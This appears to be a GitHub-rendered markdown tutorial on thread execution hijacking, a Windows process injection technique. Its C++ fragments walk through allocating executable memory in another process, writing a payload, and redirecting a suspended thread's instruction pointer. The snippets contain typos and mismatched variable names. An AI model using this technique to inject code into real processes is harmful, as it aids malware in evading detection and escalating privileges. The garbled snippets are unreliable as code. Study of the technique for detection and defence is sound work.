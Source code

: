 # Process Injection: Thread Execution Hijacking

## Overview

Process injection is a technique used by attackers to inject malicious code into the address space of another process. This allows them to prevent detection and elevate privileges. 

One of the sub-techniques of process injection is Thread Execution Hijacking, also known as Suspend, Inject, and Resume (SIR). This technique avoids the creation of new processes or threads, which can be noisy and more easily detected by security measures.

## High-Level Steps

Thread execution hijacking can be broken down into the following high-level steps:

1. **Locate and open a target process to control.**
2. **Allocate a memory region for malicious code.**
3. **Write malicious code to the allocated memory.**
4. **Identify the thread ID of the target thread to hijack.**
5. **Open the target thread.**
6. **Suspend the target thread.**
7. **Obtain the thread context.**
8. **Update the instruction pointer to the malicious code.**
9. **Rewrite the target thread context.**
10. **Resume the hijacked thread.**

## Detailed Steps

### 1. Locate and Open a Target Process to Control

The attacker identifies a running process to hijack, usually one with higher privileges or access to sensitive information. Functions like `CreateToolhelp32Snapshot()`, `Thread32First()`, and `Thread32Next()` are used to enumerate through the existing threads of a target process.

#### CreateTOolhelp32Snapshort() : Takes a snapshot of the specified processes, as well as the heaps, modules, and threads used by these processes. It inclues lot of parameters such as

***Snapshot: A collection of system objects captured at a point in time***

- TH32CS_SNAPHEAPLIST: Includes the heap list of the process specified in th32ProcessID.
- TH32CS_SNAPPROCESS: Includes all processes in the system.
- TH32CS_SNAPTHREAD: Includes all threads in the system.
- TH32CS_SNAPMODULE: Includes all modules of the process specified in th32ProcessID.
- TH32CS_SNAPMODULE32: Includes all 32-bit modules of the process specified in th32ProcessID when running on a 64-bit system.
- TH32CS_SNAPALL: Includes all of the above.

#### Thread32First() : Retrieves information about the first thread of any process encountered in a system snapshot.
#### Thread32Next(): Retrieves information about the next thread of any process encountered in the system memory snapshot.

```cpp
THREADENTRY32 threadEntry;

HANDLE hSnapshot = CreateToolhelp32Snapshot( // Snapshot the specified process
    TH32CS_SNAPTHREAD, // Include all threads in the system
    0 // Indicates the current process
);
Bool Thread32First( // Obtains the first thread in the snapshot
    hSnapshot, // Handle of the snapshot
    &threadEntry // Pointer to the THREADENTRY32 structure
    // Describes an entry from a list of the threads executing in the system when a snapshot was taken.
);

while (Thread32Next( // Obtains the next thread in the snapshot
    hSnapshot, // Handle of the snapshot
    &threadEntry // Pointer to the THREADENTRY32 structure
)) {
    // Iterate through threads
}
```

### 2. Allocate Memory Region for Malicious Code

Memory within the address space of the target process is allocated for the malicious code using `VirtualAllocEx`.

#### VirtualAllocEx() Reserves, commits, or changes the state of a region of memory within the virtual address space of a specified process. The function initializes the memory it allocates to zero.

```cpp 
PVOIF remoteBuffer = VirtualAllocEx(
	hProcess, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);

```
### 3. Write Malicious Code to Allocated Memory

The attacker writes the malicious code or a DLL path into the allocated memory using `WriteProcessMemory`.

```cpp 
WriteProcessMemory(hProcess, pRemoteCode, payload, payloadSize, NULL);

```

### 4. Identify the Thread ID of the Target Thread to Hijack

Enumerate through the threads of the target process to find the thread to hijack, using the `THREADENTRY32` structure and functions like `Thread32First` and `Thread32Next`.

### 5. Open the Target Thread

Using `OpenThread`, the attacker obtains a handle to the target thread.

```cpp

if (threadEntry.th32OwnerProcessID == processID) // Verifies both parent process ID's match
		{
			HANDLE hThread = OpenThread(
				THREAD_ALL_ACCESS, // Requests all possible access rights
				FALSE, // Child threads do not inheret parent thread handle
				threadEntry.th32ThreadID // Reads the thread ID from the THREADENTRY32 structure pointer
			);
			break;
		}

 ```

### 6. Suspend the Target Thread

The identified thread within the process is suspended using the `SuspendThread` API call.
```cpp
SuspendThread(hThread);
```

### 7. Obtain the Thread Context

The context of the suspended thread, which includes the thread's register states and execution pointers, is retrieved using `GetThreadContext`.

```cpp
CONTEXT ctx;
ctx.ContextFlags = CONTEXT_CONTROL;
GetThreadContext(hThread, &ctx);
```

### 8. Update the Instruction Pointer to the Malicious Code

The instruction pointer in the thread's context is updated to point to the address of the injected malicious code.

```cpp
ctx.Rip = (DWORD64)pRemoteCode; // For 64-bit systems
```

### 9. Rewrite the Target Thread Context

The modified context is then written back to the thread using `SetThreadContext`.

```cpp
SetThreadContext(hThread, &ctx);

```

### 10. Resume the Hijacked Thread

Finally, the thread is resumed using the `ResumeThread` API call, causing it to execute the injected malicious code.

```cpp
ResumeThread(hThread);

```